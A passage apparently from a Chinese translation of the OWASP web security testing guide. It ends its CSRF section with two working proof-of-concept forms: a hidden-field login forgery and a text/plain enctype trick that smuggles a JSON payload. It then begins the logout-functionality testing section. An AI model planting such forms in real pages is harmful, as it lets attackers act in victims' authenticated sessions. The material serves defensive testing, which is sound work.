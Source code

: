<form action='http://tagetWebsite/Authenticate.jsp' method='POST' name='CSRF'>
    <input type='hidden' name='name' value='Hacked'>
    <input type='hidden' name='password' value='Hacked'>
</form>

</body>
</html>
```

在开发人员将JSON用于浏览器与服务器通信的Web应用程序中，可能会出现以下问题：不存在JSON格式的查询参数，而这是自提交表单所必需的。为了绕过这种情况，我们可以使用带有JSON负载（包括隐藏输入）的自我提交表单来利用CSRF。我们必须更改编码类型（enctype），text/plain以确保有效载荷按原样传递。该漏洞利用代码如下所示：
```
<html>
 <body>
  <script>history.pushState('', '', '/')</script>
   <form action='http://victimsite.com' method='POST' enctype='text/plain'>
     <input type='hidden' name='{"name":"hacked","password":"hacked","padding":"'value='something"}' />
     <input type='submit' value='Submit request' />
   </form>
 </body>
</html>
```
这个POST请求如下：
```
POST / HTTP/1.1
Host: victimsite.com
Content-Type: text/plain

{"name":"hacked","password":"hacked","padding":"=something"}
```
当数据以POST请求方式送出，服务器将乐于接受这个名字和密码，并忽视不需要的padding部分。

### 补救措施
查看OWASP CSRF Prevention Cheat Sheet 
### 工具
OWASP ZAP
CSRF Tester
Pinata-csrf-tool

### 参考

Peter W: “Cross-Site Request Forgeries”
Thomas Schreiber: “Session Riding”
Oldest known post
Cross-site Request Forgery FAQ
A Most-Neglected Fact About Cross Site Request Forgery (CSRF)
Multi-POST CSRF
SANS Pen Test Webcast: Complete Application pwnage via Multi POST XSRF

## 用户退出功能测试 Testing for Logout Functionality
ID:WSTG-SESS-06

### 概要

会话终止是会话生命周期的重要组成部分。将会话令牌的生存期减少到最低程度，可以降低会话劫持攻击的成功率。。假如某种攻击依赖于经过验证的用户身份，，那么及时使用户退出登录也可以视为防止攻击（例如跨站点脚本和跨站点请求伪造）的一种方法。而没有安全的会话终止机制，会增加web应用的攻击面。

安全会话终止至少需要以下组件：
- 用户界面控件的可用性，允许用户手动注销。
- 用户在给定时间内没有活动，则会话终止（会话超时）。
- 适当地使服务器端会话状态无效。

有多种问题会阻止会话的有效终止。对于理想的安全Web应用程序，用户应该能够通过用户界面随时终止。每个页面的直接可见位置都应包含一个注销按钮。不清楚或不明确的注销功能可能导致用户不信任此类功能。

```